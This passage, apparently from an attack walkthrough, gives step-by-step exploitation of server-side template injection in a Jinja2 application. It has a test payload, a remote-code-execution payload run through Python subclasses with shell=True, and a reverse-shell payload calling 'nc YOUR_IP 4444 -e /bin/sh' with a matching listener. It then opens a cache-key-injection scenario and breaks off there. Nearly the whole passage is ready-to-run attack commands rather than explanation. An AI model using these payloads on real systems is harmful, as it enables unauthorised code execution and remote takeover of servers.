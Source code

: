 ### Scenario B: Server-Side Template Injection (SSTI)

If the application caches and renders templates:

#### 1. Test for SSTI

Try template injection payloads:

```bash
# Jinja2 SSTI test
curl -X POST http://localhost:8080/upload \
  -d "name={{7*7}}"

# Check if output shows 49 instead of {{7*7}}
```

#### 2. Escalate to RCE

If SSTI is confirmed, escalate to code execution:

```bash
# Jinja2 RCE payload
PAYLOAD="{{ ''.__class__.__mro__[1].__subclasses__()[396]('whoami', shell=True, stdout=-1).communicate()[0].strip() }}"

curl -X POST http://localhost:8080/upload \
  -d "name=$PAYLOAD"
```

#### 3. Deploy Reverse Shell via SSTI

```bash
# Reverse shell payload
PAYLOAD="{{ ''.__class__.__mro__[1].__subclasses__()[396]('nc YOUR_IP 4444 -e /bin/sh', shell=True) }}"

# Start listener
nc -lvnp 4444

# Inject payload
curl -X POST http://localhost:8080/upload \
  -d "name=$PAYLOAD"
```

### Scenario C: Cache Key Injection

If you can control cache keys:

#### 1. Identify Cache Key Structure

```bash
# Test different cache keys
redis-cli --scan --pattern "cache:*"
```

#### 2. Inject Malicious Key
